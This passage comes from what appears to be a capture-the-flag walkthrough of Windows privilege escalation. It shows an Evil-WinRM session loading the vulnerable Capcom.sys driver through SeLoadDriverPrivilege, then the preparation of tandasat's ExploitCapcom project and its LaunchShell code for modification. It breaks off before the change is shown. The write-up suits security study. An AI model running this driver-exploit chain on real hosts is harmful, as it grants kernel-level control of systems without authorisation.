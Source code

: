 ```
*Evil-WinRM* PS C:\programdata> .\eoploaddriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\dfserv
NTSTATUS: 00000000, WinError: 0

```

I don’t have permissions to see that the driver is running, but given the tool output, it seems good. If it returns anything other than `NTSTATUS: 00000000`, that’s an error. When I initially tried compiling this with `mingw-64`, I was getting [0xC000003B](http://errorco.de/win32/ntstatus-h/status_object_path_syntax_bad/0xc000003b/), which is `STATUS_OBJECT_PATH_SYNTAX_BAD` - Something in the path forming was breaking. I think [0xc0000034](https://books.google.com/books?id=kvm5LFDlwFcC&pg=PA379&lpg=PA379&dq=c0000034+status&source=bl&ots=Q-8FgC45wN&sig=ACfU3U0ec1Wq-Ceh41WVLzqqNHBYmvxW8A&hl=en&sa=X&ved=2ahUKEwjW75Csxo7qAhVDgXIEHftPB1YQ6AEwDnoECA0QAQ#v=onepage&q=c0000034%20status&f=false) (which is `STATUS_OBJECT_NAME_NOT_FOUND`) is thrown when the driver is already loaded (please let me know if this isn’t right).

### Driver Exploit

#### Load Project

I’ll start with [this project](https://github.com/tandasat/ExploitCapcom) from tandasat that exploits the vulnerable `Capcom.sys`. This is a full on Visual Studio project, so I’m going to do this from Windows. I’ll first download the zip from GitHub to my Windows VM. After unzipping, there’s an `.sln` Visual Studio project file:

![image-20200619112212074](https://0xdfimages.gitlab.io/img/image-20200619112212074.png)

Double clicking that opened it in VS. First, build the solution to make sure there aren’t any error before I start messing with things. I’ll set the dropdowns to Release and x64, and then go to Build –> Build Solution. It works:

![image-20200619112711132](https://0xdfimages.gitlab.io/img/image-20200619112711132.png)

#### Modify Code

The `README.md` shows that this exploit will pop open another `cmd.exe` window. That’s not useful for me. I found the point in the code where this happens:

```

// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}

```
